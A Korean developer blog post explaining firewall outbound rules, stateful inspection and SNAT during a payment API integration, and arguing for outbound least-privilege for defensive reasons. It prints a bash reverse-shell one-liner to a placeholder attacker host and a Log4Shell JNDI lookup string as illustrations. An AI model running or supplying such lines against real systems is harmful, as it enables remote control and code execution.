

## 1. 배경 (Situation)

외부 결제 솔루션 연동 작업을 진행하던 중이었습니다. 공급사로부터 연동 가이드 문서를 받았는데, 다음과 같은 인프라 요구사항이 있었습니다.

> **[방화벽 허용 요청]**
> * **Domain:** `api.payment-gateway.com`
> * **Port:** TCP 443 (HTTPS)
> * **Direction:** Outbound (내부 -> 외부)

보통의 경우라면 인프라 팀에 "이 도메인과 포트로 방화벽(ACL) 오픈해주세요"라고 Jira 티켓을 끊고 끝났을 일입니다. 하지만 문득 **"내가 신청한 이 한 줄의 설정이 네트워크 세계에서는 실제로 어떤 물리적/논리적 변화를 일으키는가?"**에 대한 호기심이 발동했습니다.

오늘은 개발자가 무심코 요청하는 '방화벽 오픈' 뒤에 숨겨진 **패킷의 여정**과, 이를 소홀히 했을 때 발생할 수 있는 **보안 위협(Log4j 사례)**을 딥다이브 해봅니다.

## 2. 문제 인식: 우리는 왜 'Outbound'만 신청했을까?

네트워크 통신은 기본적으로 '요청'과 '응답'으로 이루어집니다.
내가 외부 API에 요청을 보내면(Outbound), 외부 API는 나에게 응답을 줍니다(Inbound).

그렇다면 논리적으로 **Outbound와 Inbound를 둘 다 열어달라고 해야 하는 것 아닐까요?**
왜 인프라 팀은 "Outbound만 열면 됩니다"라고 했을까요?

이 질문의 답은 현대 방화벽의 핵심 메커니즘인 **'Stateful Inspection(상태 기반 검사)'**에 있습니다.

## 3. 기술적 심층 분석 (Deep Dive)

### 3.1. 패킷의 여행과 3-Way Handshake
우리가 코드에서 `HttpClient.post("https://api...")`를 호출하는 순간, OS 커널 레벨에서는 목적지 서버와 **TCP 연결(Connection)**을 맺기 위해 3단계 절차를 밟습니다.

1.  **SYN (Synchronize):** "저기요, 대화 좀 합시다." (Client -> Server)
2.  **SYN-ACK (Synchronize-Acknowledgment):** "알겠소, 준비됐소." (Server -> Client)
3.  **ACK (Acknowledgment):** "확인했습니다. 시작합시다." (Client -> Server)

### 3.2. 방화벽의 역할: 문지기의 기억력 (Stateful Inspection)
과거의 방화벽(Stateless)은 들어오는 패킷과 나가는 패킷을 각각 독립적으로 검사했습니다. 그래서 응답 패킷을 받으려면 Inbound도 열어줘야 했습니다.

하지만 현대의 **Stateful Firewall**은 '기억력'이 있습니다.

1.  내 서버가 외부로 **SYN** 패킷(Outbound)을 보냅니다.
2.  방화벽은 규칙(Rule)을 확인하고 허용되어 있다면, **"A가 B에게 문을 두드렸다"**는 상태를 **세션 테이블(Session Table)**에 기록합니다.
3.  외부 서버가 응답으로 **SYN-ACK** 패킷(Inbound)을 보냅니다.
4.  방화벽은 Inbound 규칙을 보기 전에, 먼저 **세션 테이블**을 봅니다.
5.  "어? 이건 아까 A가 요청한 것에 대한 응답이네?" -> **자동 통과 (Allow established)**

이것이 우리가 API 연동 시(Client 역할일 때) **Outbound**만 신경 쓰면 되는 이유입니다.





### 3.3. NAT (Network Address Translation)의 마법
또 하나 간과하기 쉬운 것은 **IP 주소의 변환**입니다.
사내 서버는 보통 사설 IP(Private IP, 예: `10.x.x.x`)를 가집니다. 이 IP로는 인터넷 세상으로 나갈 수 없습니다.

방화벽(또는 NAT Gateway)을 통과하는 순간, 패킷의 '보내는 사람(Source IP)' 주소는 회사의 **공인 IP(Public IP)**로 바꿔치기 당합니다. 이를 **SNAT (Source NAT)**라고 합니다.

$$\text{Packet Source}: 10.10.1.5 \xrightarrow{\text{Firewall}} 203.0.113.5$$

외부 API 업체가 "너네 IP 화이트리스트에 등록해야 하니 IP 알려줘"라고 할 때, 내 서버의 IP(`ifconfig` 결과)가 아니라 **NAT IP**를 알려줘야 하는 이유가 바로 이것입니다.

## 4. 보안적 관점과 리스크 (Security & Risk)

"그냥 편하게 Outbound `ANY` (모든 곳 허용)로 열어두면 안 되나요?"
개발 편의성을 위해 이런 유혹에 빠지기 쉽습니다. 하지만 이는 보안 담당자가 뒷목을 잡을 일입니다.

### 4.1. 왜 Outbound 통제가 중요한가? (Reverse Shell)
해커가 만약 내 서버에 침투했다고 가정해 봅시다(RCE 취약점 등). 해커의 다음 목표는 **내부 데이터를 밖으로 빼돌리거나(Exfiltration)**, 외부의 **C&C(Command & Control) 서버**와 통신하여 지속적인 명령을 받는 것입니다.

이때 해커는 **리버스 쉘(Reverse Shell)** 기법을 사용합니다.
보통 방화벽은 '외부 -> 내부' 접속(Inbound)은 엄격하게 막지만, '내부 -> 외부' 접속(Outbound)은 관대한 점을 노리는 것입니다.

```bash
# 해커가 감염된 서버에서 실행하는 명령어 예시
# 방화벽이 Outbound ANY라면, 해커의 서버(attacker.com)로 바로 연결되어 제어권이 넘어감
bash -i >& /dev/tcp/attacker.com/8080 0>&1
```

만약 우리가 `api.payment-gateway.com:443`으로만 Outbound를 제한해 두었다면?
해커가 `attacker.com:8080`으로 접속을 시도할 때 방화벽이 **DROP** 시켜버립니다. 즉, **Outbound 정책은 침해 사고 발생 시 최후의 보루**가 됩니다.

### 4.2. 실제 사례: Log4j (Log4Shell) 사태
2021년 IT 업계를 강타한 **Log4j 사태(CVE-2021-44228)**가 대표적인 예시입니다.

이 공격의 핵심 메커니즘은 로깅 라이브러리가 공격자의 LDAP 서버로 **Outbound 요청**을 보내고, 악성 자바 클래스를 다운로드 받아 실행하는 것이었습니다.

$$ \text{Log("...jndi:ldap://[attacker.com/exploit](https://attacker.com/exploit)...")} \rightarrow \text{Outbound Request} $$

당시 **Outbound 방화벽 정책을 엄격하게 관리(Whitelist)했던 기업**들은, Log4j 취약점이 있는 버전의 라이브러리를 사용하고 있었음에도 불구하고, 공격자가 유도한 LDAP 서버로의 접속이 차단되어 **피해를 막거나 최소화**할 수 있었습니다.

## 5. 회고 및 인사이트 (Retrospective)

이번 API 연동 작업을 통해 단순히 "통신이 되게 하는 것"을 넘어, 네트워크 흐름과 보안의 상관관계를 다시 한번 정리할 수 있었습니다.

1.  **Stateful Inspection:** 방화벽은 똑똑하다. 요청한 놈에게 돌아오는 응답은 기억해 준다.
2.  **Least Privilege (최소 권한의 원칙):** 방화벽 신청 시 "귀찮으니 대역으로 열어주세요" 하지 말자. 그 귀찮음이 해킹을 막는 방패가 된다.
3.  **Developer's Responsibility:** 인프라 보안은 인프라 팀만의 책임이 아니다. 개발자도 내 애플리케이션이 **'어디로', '왜'** 나가는지 명확히 인지하고 통제해야 한다.

앞으로 Jira 티켓을 끊을 때, 패킷 하나하나의 무게감을 느끼며 작성하게 될 것 같습니다.
